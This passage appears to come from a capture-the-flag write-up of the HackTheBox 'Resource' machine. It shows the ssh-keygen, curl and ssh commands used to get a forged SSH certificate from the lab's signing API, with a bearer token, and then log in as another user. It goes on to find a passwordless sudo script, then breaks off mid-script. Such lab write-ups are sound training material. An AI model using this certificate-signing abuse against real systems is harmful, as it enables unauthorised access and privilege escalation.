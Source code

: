 The content of `/etc/ssh/sshd_config.d/sshcerts.conf` shows us that a principal file located at `/etc/ssh/auth_principals` is used by SSH on this host. Checking the file we find `zzinter_temp` to be a valid principal namae for `zzinter`.

![SSH principal file](/images/HTB-Resource/principal_file.png)

![zzinter valid principal name](/images/HTB-Resource/zzinter_temp.png)

With all the required elements we can now repeat the process used earlier.

1. Generate an SSH key for zzinter.

```
ssh-keygen -t rsa -b 4096 -f id_rsa_zzinter
```

2. To obtain our signed certificate we send a request with curl.

```
curl signserv.ssg.htb/v1/sign -d '{"pubkey": "YOUR_GENERATED_PUBLIC_KEY", "username": "zzinter", "principals": "zzinter_temp"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```

* Store the certificate in a file.

```
echo "YOUR_SSH_CERTIFICATE" > id_rsa_zzinter-cert.pub
```

3. Modify the file permissions.

```
chmod 600 id_rsa_zzinter
chmod 600 id_rsa_zzinter-cert.pub
```

4. Login as `zzinter` on the new host.

```
ssh -i id_rsa_zzinter -p 2222 zzinter@172.223.0.1
```

![zzinter ssh login on ssg host](/images/HTB-Resource/zzinter_ssh_ssg_host.png)

## Privilege Escalation - root shell (on ssg host)

The home folder of `zzinter` only contains the user flag, but running `sudo -l` we learn that this user can execute `/opt/sign_key.sh` as root without providing a password.

![sudo -l command](/images/HTB-Resource/sudo-l-cmd.png)

The output of `sign_key.sh` is as below. The script is similar to the `sign_key_api.sh` script, it uses `ssh-keygen` to sign an SSH public key using a specified CA private key to create a signed SSH certificate. It expects five arguments and also performs a matching operation with the `/etc/ssh/ca-it`. 

```bash
#!/bin/bash

usage () {
    echo "Usage: $0 <ca_file> <public_key_file> <username> <principal> <serial>"
    exit 1
}

if [ "$#" -ne 5 ]; then
    usage
fi

ca_file="$1"
public_key_file="$2"
```